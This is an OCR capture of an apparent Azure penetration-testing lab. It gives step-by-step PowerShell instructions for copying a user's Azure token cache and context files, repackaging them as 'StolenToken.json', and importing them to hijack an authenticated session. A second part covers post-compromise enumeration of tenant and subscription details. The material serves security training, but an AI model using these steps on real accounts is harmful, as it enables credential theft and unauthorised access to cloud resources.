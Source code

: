 ```text
Open Windows Explorer and type %USERPROFILE%\.Azure\ and hit enter
• Copy TokenCache.dat & AzureRmContext.json to C:\Temp\Live Tokens
• Now close your authenticated PowerShell window!

Delete everything in %USERPROFILE%\.azure\
• Start a brand new PowerShell window and run:
PS> Import-Module Az
PS> Get-AzContext -ListAvailable
• You shouldn’t see any available contexts currently

• In your PowerShell window let’s manipulate the stolen TokenCache.dat and AzureRmContext.json files so we can import it into our PowerShell session

PS> $bytes = Get-Content "C:\Temp\Live Tokens\TokenCache.dat" -Encoding byte
PS> $b64 = [Convert]::ToBase64String($bytes)
PS> Add-Content "C:\Temp\Live Tokens\b64-token.txt" $b64

• Now let’s add the b64-token.txt to the AzureRmContext.json file.
• Open the C:\Temp\Live Tokens folder.
• Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.
• Delete the word “null” on this line
• Where “null” was add two quotation marks (“”) and then paste the contents of b64-token.txt in between them.
• Save this file as C:\Temp\Live Tokens\StolenToken.json
• Let’s import the new token

PS> Import-AzContext -Profile 'C:\Temp\Live Tokens\StolenToken.json’

• We are now operating in an authenticated session to Azure

PS> $context = Get-AzContext
PS> $context.Account

• You can import the previously exported context (AzureAccessToken.json) the same way

# Azure situational awareness
• GOAL: Use the MSOnline and Az PowerShell modules to do basic enumeration of an Azure account post-compromise.
• In this lab you will authenticate to Azure using your Azure AD account you setup. Then, you will import the MSOnline and Az PowerShell modules and try out some of the various modules that assist in enumerating Azure resource usage.

• Start a new PowerShell window and import both the MSOnline and Az modules
    PS> Import-Module MSOnline
    PS> Import-Module Az
• Authenticate to each service with your Azure AD account:
    PS> Connect-AzAccount
    PS> Connect-MsolService
• First get some basic Azure information 
    PS> Get-MSolCompanyInformation
• Some interesting items here are
   ◇ UsersPermissionToReadOtherUsersEnabled
   ◇ DirSyncServiceAccount
   ◇ PasswordSynchronizationEnabled
   ◇ Address/phone/emails
• Next, we will start looking at the subscriptions associated with the account as well as look at the current context we are operating in. Look at the “Name” of the subscription and context for possible indication as to what it is associated with.
    PS> Get-AzSubscription
    PS> $context = Get-AzContext
    PS> $context.Name
    PS> $context.Account
```
